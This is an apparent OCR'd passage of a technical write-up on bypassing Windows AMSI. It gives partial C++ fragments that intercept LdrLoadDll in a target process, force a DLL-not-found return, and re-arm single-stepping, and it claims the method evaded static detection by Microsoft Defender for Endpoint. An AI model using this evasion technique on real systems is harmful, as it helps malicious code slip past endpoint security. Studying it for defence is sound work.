 ```cpp

    // Force failure
    thread_context.Rax = STATUS_DLL_NOT_FOUND;  // 0xC0000135

    // Jump to return address (bypass function body)
    ULONGLONG ret_addr;
    read_target_memory((LPCVOID)thread_context.Rsp, &ret_addr, 8);
    thread_context.Rsp += 8;
    thread_context.Rip = ret_addr;
}
```

**4) Single-Step Re-arming (Trap Flag)**
```cpp
static void prepare_single_step_execution(HANDLE thread, CONTEXT ctx, DWORD tid) {
    ctx.EFlags |= 0x100;  // Set Trap Flag (TF)
    SetThreadContext(thread, &ctx);
    g_awaiting_reactivation_id = tid;
    CloseHandle(thread);
}
```

### !] To find LdrLoadDll?

```cpp
To find LdrLoadDll, we will check for Offset matching when loading ntdll.dll; 

HMODULE local_ntdll = GetModuleHandleA("ntdll.dll");
FARPROC local_LdrLoadDll = GetProcAddress(local_ntdll, "LdrLoadDll");
uintptr_t offset = (uintptr_t)local_LdrLoadDll - (uintptr_t)local_ntdll;

g_intercept_function_addr = (BYTE*)g_target_module_base + offset;
```

For security considerations, I'll share the conceptual approach code rather than complete code
Let's try if we can bypass AMSI :D.

## TEST :)

I will test in Windows 10; with updated MDE :D.
It bypassed static detection (It's logical, we are not harmful :) but we can load what could be harmful).

Without Bypass : 
